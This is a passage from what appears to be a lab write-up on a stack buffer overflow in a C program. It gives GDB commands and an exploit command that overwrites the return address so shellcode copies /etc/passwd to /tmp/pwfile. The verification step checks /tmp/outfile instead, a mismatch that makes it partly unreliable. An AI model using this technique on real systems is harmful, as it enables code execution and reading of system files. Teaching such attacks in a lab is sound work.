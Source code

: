 ## Step 6: Debug with GDB

To check the memory layout and ensure the injection is working, we will load the program into GDB. This will help us observe the vulnerable buffer, inspect the stack, and verify the address where we will inject our shellcode.
```sh
gdb ./redundant.out
break redundant_code
run $(python -c "print('A'*72)")  
p &buffer
```
![image](https://github.com/user-attachments/assets/7c6ddeeb-0be1-40ff-b7f4-e7865d2ec9d3)

### Mark the information down
We see that the register is: 0xf7fcc5b4 => we will use this later!

---

## Step 7: Launch the Exploit and Copy `/etc/passwd`

Now that we have verified the memory layout, we can proceed to exploit the vulnerability by injecting our crafted payload. The payload will overwrite the return address, causing the program to jump to the shellcode and execute it.

To trigger the exploit, use the following command to pass the crafted input that includes the shellcode:
```bash
./redundant.out "$(python -c "print('a'*72 + '\xb4\xc5\xfc\xf7')")"
```

- `'A' * 72` fills the buffer up to the return address.
- Overwrites the return address to point to the location of the shellcode.

After running the program, it will execute the shellcode and copy the `/etc/passwd` file to `/tmp/pwfile`.

### Verifying the Attack
To confirm that the exploit succeeded, check that the `/etc/passwd` file has been copied to `/tmp/pwfile`:
```bash
cat /tmp/outfile
```
You should see that the file exists, confirming that the code injection attack successfully executed.

---

## Conclusion

In this lab, we exploited a buffer overflow vulnerability in a C program to perform a code injection attack. By disabling security protections and controlling the memory layout, we were able to inject custom shellcode into the program. This shellcode successfully copied the `/etc/passwd` file to `/tmp/pwfile`, demonstrating a practical example of code injection through buffer overflow.
